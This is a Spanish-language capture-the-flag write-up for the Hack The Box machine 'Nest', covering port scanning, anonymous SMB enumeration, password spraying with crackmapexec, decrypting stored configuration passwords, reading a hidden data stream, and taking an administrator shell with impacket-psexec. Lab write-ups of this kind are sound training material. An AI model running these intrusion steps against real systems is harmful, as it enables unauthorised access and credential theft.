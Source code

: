 ```yaml
---
description: '✍️ Autor: VbScrub🔍 Dificultad: Fácil 📅 Fecha de creación: 04/06/2020'
---
```


# Nest

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.178
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV -p- 10.10.10.178
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 445 (SMB):** El puerto 445/tcp está abierto y ejecutando el servicio `microsoft-ds?`, lo que indica la posible presencia de un servicio SMB en el sistema.
* **Puerto 4386 (unknown):** El puerto 4386/tcp también está abierto y ejecutando un servicio desconocido. Según el fingerprinting de respuesta, el servicio se identifica como `Reporting Service V1.2`, lo que sugiere que permite a los usuarios ejecutar consultas en bases de datos mediante el formato HQK. Entre los comandos disponibles se encuentran `LIST`, `SETDIR`, `RUNQUERY`, `DEBUG` y `HELP`. Esta funcionalidad podría representar un posible vector de ataque si el servicio no está correctamente asegurado.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p445,4386 -v 10.10.10.178
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio en el `/etc/hosts`.

```bash
echo "10.10.10.178 nest.htb" >> /etc/hosts
```

Listamos recursos compartidos.

```bash
smbclient -L 10.10.10.178
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Listamos el contenido de los recursos compartidos.

```bash
smbclient \\\\nest.htb\\Users -N
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\nest.htb\\Data -N
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En la ruta `/Shared/Templates/HR` hay un archivo interesante.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos unas credenciales por lo que con los usuarios descubiertos antes realizamos fuerza bruta.

```bash
crackmapexec smb nest.htb -u usuarios -p 'welcome2019' --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intenté iniciar sesión con los tres usuarios y, al usar **TempUser**, obtuve un archivo, pero estaba vacío. Volví a acceder al recurso compartido **Data** como **TempUser** y descargué los archivos. Entre ellos, encontré un archivo llamado **RU\_Config.xml**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En otro archivo (**config.xml**) encontramos también información.

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Entramos donde **Carl**.

```bash
smbclient -U ./TempUser //10.10.10.178/Secure$
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Lo que estamos buscando es una línea del artículo que mencionamos antes, un algoritmo para descifrar el cifrado del archivo **RU\_Config.xml**. Quiero hacerlo rápido, así que voy a dotnetfiddle.net, realizar algunos ajustes al código y ejecutarlo con la contraseña cifrada que está en el archivo de configuración.

{% embed url="https://dotnetfiddle.net/" %}

El resultado es **xRxRxPANCAK3SxRxRx**. Bien, el usuario estaba claro, y ahora la contraseña está descifrada.

```
smbclient -U ./c.smith //10.10.10.178/Users
```

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos investigando para escalar a **root**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-24 110901.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux?source=post_page-----125aa20f9fea---------------------------------------" %}

```bash
allinfo "Debug Mode Password.txt"
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos.

```
get "Debug Mode Password.txt":Password:$Data
```

Esto debería devolverte la contraseña en formato claro, que en este caso es **WBQ201953D8w**.

Con la contraseña obtenida, conéctate al servidor HQK:

```bash
debug WBQ201953D8w
```

Dentro del servidor, ejecuta el siguiente comando en el directorio LDAP para ver la configuración:

```bash
showquery 2
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Esto debería devolverte las credenciales del **Administrador** en formato cifrado. En el ejemplo, la contraseña es **yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=**.

```bash
echo "yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=" | base64 --decode
```

Ejecuté el comando `file` sobre el archivo `HqKLdap.exe` y descubrí que es un ejecutable .NET. Lo copié a mi sistema Windows y lo abrí utilizando ILSpy. Dentro del archivo `HqKLdap`, en la sección `CR`, encontré la siguiente línea de código:

```csharp
return RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
```

Reemplacé esta línea en el script de Nest y modifiqué el archivo `config.xml` con el nombre de usuario y la contraseña de "Administrator". Luego ejecuté el script y obtuve lo siguiente:

**Anterior:**

```
XtH4nkS4Pl4y1nGX
Administrator
```

**Nuevo:**

```
AJPcXFcqZ32B993fPwoHWA==
XtH4nkS4Pl4y1nGX
```

La contraseña obtenida es: `XtH4nkS4Pl4y1nGX`.

Ahora, intentemos obtener una shell utilizando la siguiente herramienta:

```bash
impacket-psexec Administrator:XtH4nkS4Pl4y1nGX@nest.htb
```

Con este comando, deberíamos obtener acceso como `Administrator`.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>
